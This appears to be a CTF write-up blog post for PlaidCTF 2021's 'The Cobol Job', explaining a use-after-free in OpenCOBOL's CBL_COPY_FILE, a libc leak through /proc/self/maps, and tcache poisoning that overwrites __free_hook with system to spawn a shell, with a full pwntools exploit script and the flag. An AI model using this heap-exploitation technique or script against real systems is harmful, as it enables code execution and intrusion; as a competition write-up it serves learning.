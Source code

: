 ```yaml
---
layout: post
title: PlaidCTF 2021 - The Cobol Job
---
```

Even though I was going through some post-quarter-end burnout, I managed to join DiceGang for a bit during PlaidCTF 2021. We ended up getting 2nd, 1 place short of pre-qualifying for DEFCONCTF 2021 Finals :(

## The Cobol Job
We are given a cobol file:
```
-----------------------
1 - Create file
2 - Open file
3 - Read file
4 - Write file
5 - Close file
6 - Copy file
7 - Exit
>
```

We can leak all the addresses including the base of libc by copying `/proc/self/maps` to a file we create, and then reading it.

I spent a long time learning too much cobol than anyone ever should.
Basically, the sizes, file descriptors, and heap pointers to a file's contents are stored in arrays. Ultimately nothing in the implementation would lead to a heap memory corruption.

However, a bug exists in the open cobol implementation of [`CBL_COPY_FILE`](https://github.com/ayumin/open-cobol/blob/72578e8fe3f13257ae5fb2b306aed112fbf7c3c4/libcob/fileio.c#L4751-L4768), which is used in the copy file function. My teammate panda found this but his internet cut out so I implemented it.

`fn1` is freed, and then written to shortly after. `fn1` just happens to be a 0x20 sized tcache chunk. Because this is Ubuntu 18.04, there is no pointer mangling so poisoning the tcache is very easy.

Using our libc leak from prior, simply copy a file whose content is the address of `__free_hook` into a dummy file whose size will fit into tcache idx 0, such as 0x18.

Create two more 0x18-sized files to set up the write into `__free_hook`. I wrote `/bin/sh` to one of these files because I planned to free them to get a shell later on.

Allocate one more 0x18-sized file. This file's buffer is pointing to `__free_hook`. Write the address of `system` to it.
- The write function first reads our input onto the heap, then writes the input from the heap into the file. So, `__free_hook` is now pointing to `system`.

From there we close a file whose content is `/bin/sh` to trigger the `__free_hook`, getting us a shell.

```python
from pwn import *

e = ELF("./chall")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p = process([e.path])
p = remote("cobol.pwni.ng", 3083)
context.terminal = ['tmux', 'splitw', '-h']
context.log_level="debug"


p.sendlineafter(">", "6")
p.sendlineafter(":", "/proc/self/maps")
p.sendlineafter(":", "/tmp/leek")

p.sendlineafter(">", "2")
p.sendlineafter(":", "/tmp/leek")
p.sendlineafter(":", "1")
p.sendlineafter(":", "10000")

p.sendlineafter(">", "3")
p.sendlineafter(":", "1")

d = p.recvuntil("Exit").splitlines()


for i in d:
    if "libc" in i:
        libc.address = int(i[:12], 16)
        break


print("libc", hex(libc.address))
print("fh", hex(libc.sym["__free_hook"]))


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruh")
p.sendlineafter(":", "2")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "2")
p.sendafter(":", p64(libc.sym["__free_hook"])+"\xe8")
p.sendline()


p.sendlineafter(">", "6")
p.sendlineafter(":", "bruh")
p.sendlineafter(":", "/tmp/sice")


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "3")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "3")
p.sendlineafter(":", "/bin/sh")
p.sendline()


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "5")
p.sendlineafter(":", "24")


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "4")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "4")
p.sendlineafter(":", p64(libc.sym["system"]))
p.sendline()


p.sendlineafter(">", "5")
p.sendlineafter(":", "3")
print("fh", hex(libc.sym["__free_hook"]))

gdb.attach(p)

p.interactive()
```

Flag: `PCTF{l3arning_n3w_languag3_sh0uld_start_with_g00d_bugs_99d4ec917d097f63107e}`
